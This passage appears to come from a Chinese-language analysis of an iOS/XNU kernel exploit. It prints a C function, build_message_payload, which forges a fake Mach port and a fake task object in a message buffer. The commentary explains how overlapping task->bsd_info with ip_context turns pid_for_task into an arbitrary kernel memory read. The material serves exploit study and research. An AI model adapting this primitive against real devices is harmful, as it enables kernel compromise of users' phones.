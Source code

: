 build_message_payload函数主要是在一个page大小内构造了fake_port和fake_task。    
```C
uint8_t* build_message_payload(uint64_t dangling_port_address, uint32_t message_body_size, uint32_t message_body_offset, uint64_t vm_map, uint64_t receiver, uint64_t** context_ptr) {
  uint8_t* body = malloc(message_body_size);
  memset(body, 0, message_body_size);
  
  uint32_t port_page_offset = dangling_port_address & 0xfff;
  
  // structure required for the first fake port:
  uint8_t* fake_port = body + (port_page_offset - message_body_offset);

  
  *(uint32_t*)(fake_port+koffset(KSTRUCT_OFFSET_IPC_PORT_IO_BITS)) = IO_BITS_ACTIVE | IKOT_TASK;
  *(uint32_t*)(fake_port+koffset(KSTRUCT_OFFSET_IPC_PORT_IO_REFERENCES)) = 0xf00d; // leak references
  *(uint32_t*)(fake_port+koffset(KSTRUCT_OFFSET_IPC_PORT_IP_SRIGHTS)) = 0xf00d; // leak srights
  *(uint64_t*)(fake_port+koffset(KSTRUCT_OFFSET_IPC_PORT_IP_RECEIVER)) = receiver;
  *(uint64_t*)(fake_port+koffset(KSTRUCT_OFFSET_IPC_PORT_IP_CONTEXT)) = 0x123456789abcdef;
  
  *context_ptr = (uint64_t*)(fake_port+koffset(KSTRUCT_OFFSET_IPC_PORT_IP_CONTEXT));
  
  
  // set the kobject pointer such that task->bsd_info reads from ip_context:
  int fake_task_offset = koffset(KSTRUCT_OFFSET_IPC_PORT_IP_CONTEXT) - koffset(KSTRUCT_OFFSET_TASK_BSD_INFO);
  
  uint64_t fake_task_address = dangling_port_address + fake_task_offset;
  *(uint64_t*)(fake_port+koffset(KSTRUCT_OFFSET_IPC_PORT_IP_KOBJECT)) = fake_task_address;
  
  
  // when we looked for a port to make dangling we made sure it was correctly positioned on the page such that when we set the fake task
  // pointer up there it's actually all in the buffer so we can also set the reference count to leak it, let's double check that!

  if (fake_port + fake_task_offset < body) {
    printf("the maths is wrong somewhere, fake task doesn't fit in message\n");
    sleep(10);
    exit(EXIT_FAILURE);
  }

  uint8_t* fake_task = fake_port + fake_task_offset;
    
  // set the ref_count field of the fake task:
  *(uint32_t*)(fake_task + koffset(KSTRUCT_OFFSET_TASK_REF_COUNT)) = 0xd00d; // leak references
    
  // make sure the task is active
  *(uint32_t*)(fake_task + koffset(KSTRUCT_OFFSET_TASK_ACTIVE)) = 1;
    
  // set the vm_map of the fake task:
  *(uint64_t*)(fake_task + koffset(KSTRUCT_OFFSET_TASK_VM_MAP)) = vm_map;
    
  // set the task lock type of the fake task's lock:
  *(uint8_t*)(fake_task + koffset(KSTRUCT_OFFSET_TASK_LCK_MTX_TYPE)) = 0x22;
  return body;
}
```  
注意fake_port和fake_task的位置，首先fake_port_和fake_task都在这个page内，其次fake_port的IP_KOBJECT指向fake_task，而且还要让task->bsd_info和ip_context重叠，这样后面只要设置context为任意地址值，就可以用pid_for_task读取任意内核内存了。  
